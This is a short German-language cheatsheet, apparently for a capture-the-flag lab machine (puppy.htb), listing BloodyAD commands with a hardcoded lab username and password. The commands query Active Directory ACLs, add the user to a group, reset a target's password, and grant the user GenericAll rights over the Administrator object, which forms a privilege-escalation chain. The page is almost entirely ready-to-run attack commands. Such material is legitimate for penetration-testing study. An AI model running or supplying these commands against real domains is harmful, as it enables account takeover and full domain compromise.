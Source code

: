 
## 🩸 BloodyAD Cheatsheet

<br>

🧩 **Retrieve User Information**

Fragt Active Directory-Objekt (z. B. einen Benutzer) ab und zeigt alle LDAP-Attribute des Zielobjekts.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object administrator
```
<br>

🧩 **Add User To Group**

Zeigt die Zugriffsrechte (ACLs) auf das Gruppenobjekt $group_name im Active Directory. 
Anhand der Rechte kann dann die Mitgliedschaft hinzugefügt werden, sofern GenericAll, WriteProperty, WriteDACL etc. vorhanden sind.
```
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get writeable 
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```

<br>

🧩 **Change Password**

Fragt mit bloodyAD die Zugriffssteuerungsliste (ACL) eines Active Directory-Objekts und anschließend wird das Passwort vom Zielobjekt geändert, sofern Berechtigungen vorhanden sind.
```
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get writeable 
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' set password $target_username $new_password
```

<br>

🧩 **Give User GenericAll Rights**

Versucht, dem Benutzer Levi.James die GenericAll-Berechtigung auf das AD-Objekt mit dem Distinguished Name Administrator zu geben.
"Füge der Access Control List (ACL) des Administrator-Objekts hinzu, dass levi.james volle Rechte bekommt.“
```
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add genericAll "CN=Administrator,CN=Users,DC=puppy,DC=htb" levi.james
```
